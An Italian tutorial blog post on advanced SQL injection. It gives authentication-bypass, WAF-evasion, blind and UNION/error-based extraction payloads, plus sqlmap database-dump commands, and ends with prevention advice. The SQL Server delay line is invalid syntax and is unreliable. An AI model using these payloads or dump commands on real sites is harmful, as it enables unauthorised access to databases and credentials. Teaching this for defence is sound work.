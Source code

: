 ```yaml
---
layout: ../../layouts/BlogLayout.astro
title: "SQL Injection Avanzate: Tecniche di Bypass e Blind Injection"
date: 2024-01-15
author: "stealth"
tags: ["web", "pwn"]
image: "https://images.pexels.com/photos/1181298/pexels-photo-1181298.jpeg?auto=compress&cs=tinysrgb&w=600&h=400&fit=crop"
---
```


Le SQL Injection rappresentano ancora oggi una delle vulnerabilità più critiche nelle applicazioni web. In questo articolo analizziamo tecniche avanzate di exploiting e bypass dei filtri di sicurezza.


<Callout type="warning" title="Disclaimer Legale">
Questo articolo è puramente educativo. L'uso di queste tecniche su sistemi non autorizzati è illegale e contrario all'etica hacker.
</Callout>


## Introduzione alle SQL Injection

Le SQL Injection si verificano quando un'applicazione web non sanitizza correttamente l'input dell'utente prima di includerlo in una query SQL. Questo permette agli attaccanti di manipolare la struttura della query originale.

### Esempio base

```sql
-- Query vulnerabile
SELECT * FROM users WHERE username = '$username' AND password = '$password';

-- Payload di attacco
username: admin' OR '1'='1' --
password: qualsiasi
```

## Tecniche di Bypass

### 1. Bypass dei filtri WAF

Molti Web Application Firewall (WAF) implementano blacklist per bloccare payload comuni:

```sql
-- Bypass usando concatenazione
' + 'OR' + ' '1'='1' --

-- Bypass usando encoding
admin%27 OR %271%27%3D%271%27 --

-- Bypass usando commenti inline
admin'/**/OR/**/1=1#
```

### 2. Time-based Blind Injection

Quando l'applicazione non restituisce errori SQL visibili:

```sql
-- Test MySQL
admin' AND (SELECT SLEEP(5)) --

-- Test PostgreSQL  
admin' AND (SELECT pg_sleep(5)) --

-- Test SQL Server
admin' AND (SELECT DELAY '0:0:5') --
```

### 3. Boolean-based Blind Injection

Sfruttando differenze nel comportamento dell'applicazione:

```sql
-- Test lunghezza database
admin' AND (SELECT LENGTH(database())) > 5 --

-- Estrazione carattere per carattere
admin' AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 97 --
```

## Tecniche di Estrazione Dati

### Union-based Injection

```sql
-- Determinare numero di colonne
admin' ORDER BY 1 --
admin' ORDER BY 2 --
admin' ORDER BY 3 -- (errore = 2 colonne)

-- Estrazione dati
admin' UNION SELECT username, password FROM users --
```

### Error-based Injection

```sql
-- MySQL
admin' AND (SELECT COUNT(*) FROM information_schema.tables GROUP BY CONCAT(version(),FLOOR(RAND(0)*2))) --

-- PostgreSQL
admin' AND (SELECT xmlagg(xmlelement("x", table_name)) FROM information_schema.tables) --
```

## Automazione con SQLMap

SQLMap è uno strumento essenziale per l'automazione degli attacchi SQL injection:

```bash
# Scansione base
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode

# Dump database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump-all
```

## Prevenzione e Mitigazione

### 1. Prepared Statements

```php
// PHP PDO - Approccio sicuro
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### 2. Stored Procedures

```sql
-- SQL Server
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users WHERE Username = @Username AND Password = @Password
END
```

### 3. Input Validation

```python
# Python - Validazione robusta
import re

def validate_input(user_input):
    # Whitelist approach
    if re.match("^[a-zA-Z0-9_]{3,20}$", user_input):
        return True
    return False
```

## Conclusioni

Le SQL Injection rimangono una minaccia seria nonostante i numerosi strumenti di protezione disponibili. La chiave è implementare una difesa a più livelli:

1. **Validazione rigorosa dell'input**
2. **Uso di prepared statements**
3. **Principio del minimo privilegio per gli account database**
4. **Monitoring e logging delle query anomale**

La sicurezza delle applicazioni web richiede un approccio proattivo e una comprensione approfondita delle tecniche di attacco per implementare contromisure efficaci.

<Callout type="info" title="Best Practice">
La chiave per prevenire le SQL Injection è implementare una difesa a più livelli combinando validazione dell'input, prepared statements e principio del minimo privilegio.
</Callout>